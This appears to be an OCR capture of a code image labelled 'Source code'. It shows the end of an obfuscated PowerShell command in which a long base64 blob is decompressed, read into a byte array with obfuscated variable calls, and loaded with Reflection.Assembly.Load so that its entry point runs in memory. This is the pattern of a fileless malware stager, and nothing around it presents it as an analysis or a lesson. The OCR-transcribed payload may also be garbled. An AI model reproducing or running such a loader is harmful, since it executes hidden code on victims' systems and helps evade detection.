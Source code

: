 ```
zlTol1iH1eoluOEhHaJhuouN0FJwWGsTtZ4omKYa
YEtA/BnkCETXRYWgMA4vjaZK9HUcMhykPaRftxJt
uXXscyh1I7DDeQ2A14XH+CNx1IrEjMGvD3AgC74C
bmzBtgm5AOAkUgt0dQtIJhDsE/igcHcQ4BKwLToa
QyGnQB2WY56C/VwbEHvfBWhT4Qcwfhv4x2GD7Qwh
wAPMmQY3AzyEp7cHsCTk/hWIfh6Qbl7/jsgwW+NO
unzbMmwbdhmRTsHAzEj/nxp134zpH+2GvA+MA7A9
jxnHksQfzojLPVshHUVDWvxlxcZF8g27dBhHyYbA
HEe6wrHQaMIsS9GDduBf64eIauMXNFkWNI+QphHI
A87BrMHcMVB+NwxWvxQG46pNFn++Bk3GKy0UehKd
JrHUMSZ+DhwSscfcdhwXulUOAh1HWQ+C3yD64CeO
Ua7lVLldGljsml6AN/AzKaCLGXix3y++MkWa+mcQ
QhbHtaPQoRO2Y1okxAaPbpZF2VJA7px0fbu1tMB8
D3A6dLdA0aD06CtdxBJQClQCew2cnncfsC1KKaxn
eSYSWAX8r5rH9zdJDDN43w84WhGfAgwFeFHgM2Bb
pmzt3M/y3yWJxnFtBCU8A62jsIN7FabjeRQEKu2/
msmKihDsnzSGYnAx3F5pioV0fRq3mkmIqL7cHz9u
B1Sq2UOz3mgU978BcE7zpq8STBb/U3yQoGyMnbKB
sYVBzEeRkoZulv+yCNvk8uzKHGArZgXMs7C5Nadz
FETp5FOpKi8ZljXghqYqXJoYlaJNt0SlPNvJsJiH
oGK4T2IQtcmMnsXxnsZBjkO9Dz3Wgd/fLxumETit
yGoKXM4guC+w0NPbA3nH0+yD0t8lYzoAekp36tfM
Ieg3MjmFyL7Br8XHSWIMtsQYtPQ1DhpSch/kLkjs
EDndjQb9tVn8A26LAbZ/l9iGsOBqBbTlFHnK7N4r
zyJid0TE7ox8aXTgsCpItUnIBb/K0EC3pQVlNpJf
k4nmuw6cJ3POzmbAeF7CNyHcC88mDj4+zJZ9jBR+
/kymtiND1tAGRWLCZR4wtoJqpkTaS8DtZz9dpLdF
pW1CnrUSnfUGd9hKdjgV1Okp0tiyos2VOZ0lxJrS
kOOZiqq2Eai+hOkqoLUQf/eebfvrid36956EHf5i
+o+nVneQNC6F5wiR8QHT9iL8pVFkVqhfBK0AwGFo
dDNb7gqGG0MbQ5nofv8FcDEnQoUINkueK9NYqfQv
maXiFtqthUR+s9ywtF4LNraSqUB7QExBBtSpkKMG
gL6yIutqackWRIuEosGwlrRTeAFT4N0KowaGXhBL
k31laEbrkaZqPBNx6+Y9sVM5l5k5nuJszq/f5YV8
Lzdzrg8LM/Ug7qECAGb4wGA9oYQ+HrWkcKRAfST9
hYlQgKZUZ9XUqsc3HeAjNPM7VU6TFJ9gZBmntCcl
62mE965MF1MLEBakgn6wLLAMNg0bgisKuhHBiuci
lQLZh0sDUGEhKkTHVYVJQpsNhOs5fWUw+eHpd44/
mJ+BvImIEH5r5gTP8WA0rdXX1dVL/fZU8vG5lfiW
0U0aHgsoQFIQgQjudQH6FBEIzv2UW4oQBERoKev0
iNMaCg6EhFoQGPH6haE/efOLwso637/SooQFFVRQ
1CKzWX1hclKue10+UkeL2EyoQGgiEvUpd6FjoI3r
UGwGtCfdPIFfy7w6jSvURXIGHzczsc+nopGWes4U
m3J+PvM6vR88U/aHkq4W/+1zg9ULxH1QSngPw+GL
IZ2r5P2aG0ZxIpaTscgOFdy9s5P/6a7fzm+O/bft
9B/L/r9/H678B'),[IO.Compression.Compress
ionMode]::Decompress));sv b (New-Object
Byte[](1024));sv r (gv d).Value.Read((gv
b).Value,0,1024);while((gv r).Value -gt
0){(gv o).Value.Write((gv b).Value,0,(g
v r).Value);sv r (gv d).Value.Read((gv
b ).Value,0,1024);}[Reflection.Assembly]::
Load((gv o).Value.ToArray()).EntryPoint.
Invoke(0,@(,[string[]]@()))|Out-Null"
```

---